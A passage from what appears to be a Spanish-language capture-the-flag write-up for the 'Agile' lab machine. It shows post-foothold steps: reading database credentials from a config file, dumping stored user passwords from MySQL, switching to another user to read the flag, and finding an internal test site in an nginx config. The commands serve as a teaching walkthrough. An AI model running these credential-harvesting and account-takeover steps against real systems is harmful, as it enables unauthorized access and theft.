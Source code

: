 Se puede ver un archivo con credenciales de acceso a la base de datos

```null
www-data@agile:/app$ cat config_prod.json 
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

Me conecto

```null
www-data@agile:/app$ mysql -usuperpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 24
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Obtengo credenciales

```null
mysql> select username,password from passwords;
+----------+----------------------+
| username | password             |
+----------+----------------------+
| 0xdf     | 762b430d32eea2f12970 |
| 0xdf     | 5b133f7a6a1c180646cb |
| corum    | 47ed1e73c955de230a1d |
| corum    | 9799588839ed0f98c211 |
| corum    | 5db7caa1d13cc37c9fc2 |
+----------+----------------------+
5 rows in set (0.00 sec)
```

Gano acceso como ```corum``` con la contraseña ```5db7caa1d13cc37c9fc2```. Puedo ver la primera flag

```null
www-data@agile:/app$ su corum
Password: 
corum@agile:/app$ cd
corum@agile:~$ cat user.txt 
92e00e36d6c842fab3a31771b83ce5e7
```

Se está ejecutando un servicio web bajo el subdomino ```test.superpass.htb```

```null
corum@agile:~$ cat /etc/nginx/sites-enabled/superpass-test.nginx 
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass http://127.0.0.1:5555;
```